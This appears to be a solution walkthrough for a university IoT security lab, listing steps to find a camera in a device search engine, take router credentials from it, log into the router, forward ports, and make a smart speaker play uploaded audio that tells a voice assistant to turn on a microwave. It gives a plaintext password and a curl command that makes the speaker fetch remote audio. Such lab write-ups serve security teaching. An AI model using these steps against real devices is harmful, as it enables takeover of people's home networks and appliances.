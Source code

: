 1. Search for "BadgerCam" in NIDAN: 

    https://nidan.cs.wisc.edu/nidan/search?search_term=BadgerCam

2. Found the IP address for the camera:

    http://[2607:f388:1080:700:a288:7496:1a32:2368]:8001/

3. From the camera, obtain the router login credential:

    Username: admin
    Password: badg3r$are@wesome!!

4. Search for the router in NIDAN: 

    https://nidan.cs.wisc.edu/nidan/search?search_term=city%3A%22Madison%22

5. Obtain the URL for the rounter and log in with credential obtained above: 

    http://[2607:f388:1080:700:a288:7496:1a32:2368]:8004/

6. Forward ports in router to obtain access to BadgerSpeaker and BadgerVoice Assistant

    BadgerCam:              192.168.0.1:8083 -> 8001
    BadgerSpeaker:          192.168.0.2:8008 -> 8002
    BadgerVoice Assistant:  192.168.0.3:7615 -> 8003
    Microwave:              192.168.0.4:9123 -> 8000

7. Record audio "Turn on the microwave"

8. Edit audio to be single channel and change audio format to flac 

    ```
    ffmpeg -i record.m4a -ac 1 record.flac
    ```

9. Upload the audio file to `https://www.file.io/`

10. Post address of the audio to the BadgerSpeaker

    ```
    curl --data "url=https://file.io/VFcqjqSD" http://[2607:f388:1080:700:a288:7496:1a32:2368]:8002/
    ```

11. BadgerSpeaker will play the audio and tell BadgerVoice Assistant to turn on the microwave

    ```
    Recent Things I Heard
        turn on microwave
    ```